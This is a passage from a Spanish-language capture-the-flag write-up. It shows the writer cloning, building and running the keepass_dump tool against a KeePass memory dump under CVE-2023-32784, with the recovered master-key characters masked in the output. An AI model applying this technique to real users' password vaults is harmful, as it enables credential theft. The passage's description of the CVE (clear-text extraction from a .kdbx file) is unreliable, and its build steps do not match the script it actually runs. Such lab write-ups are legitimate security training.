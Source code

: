 Ahora tenemos acceso a los archivos `Database.kdbx` y `KeePass.DMP`. Continuaremos investigando estos archivos para descubrir qué información valiosa contienen.


### Investigación sobre los archivos extraídos

Investigamos sobre el archivo `KeePass.DMP` y el archivo `Database.kdbx` de KeePass, y encontramos una vulnerabilidad y una herramienta útiles:

- **CVE-2023-32784**: Esta vulnerabilidad en KeePass permite extraer las contraseñas en texto claro de un archivo .kdbx sin necesidad de conocer la contraseña maestra. Más detalles pueden encontrarse en [INCIBE-CERT](https://www.incibe.es/incibe-cert/alerta-temprana/vulnerabilidades/cve-2023-32784).
- **keepass_dump**: Una herramienta que explota esta vulnerabilidad para extraer las contraseñas. La herramienta puede descargarse desde su repositorio en GitHub: [keepass_dump](https://github.com/z-jxy/keepass_dump).

### Uso de keepass_dump

Procedemos a descargar y utilizar `keepass_dump` para extraer las contraseñas del archivo `KeePass.DMP`.

```shell
# Clonamos el repositorio
git clone https://github.com/z-jxy/keepass_dump.git
cd keepass_dump

# Compilamos la herramienta
make

# Utilizamos la herramienta para extraer las contraseñas
./keepass_dump KeePass.DMP
```

Analizaremos la salida de `keepass_dump` para identificar posibles contraseñas y usuarios que nos permitan avanzar en nuestra investigación.




### Extracción de contraseñas con keepass_dump

Una vez descargada la herramienta de GitHub e informados de cómo utilizarla, nos ponemos manos a la obra.

\```shell
┌─[✗]─[root@parrot]─[/home/oscar/THL/mortadela/keepass]
└──╼ # python3 keepass_dump/keepass_dump.py -f KeePass.DMP                         
[*] Searching for masterkey characters
[-] Couldn't find jump points in file. Scanning with slower method.
[*] 0:	{UNKNOWN}
[*] 1:	x
[*] 2:	x
[*] 3:	x
[*] 4:	x
[*] 5:	x
[*] 6:	x
[*] 7:	x
[*] 8:	x
[*] 9:	x
[*] 10:	x
[*] 11:	x
[*] 12:	x
[*] 13:	x
[*] Extracted: {UNKNOWN}xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
\```
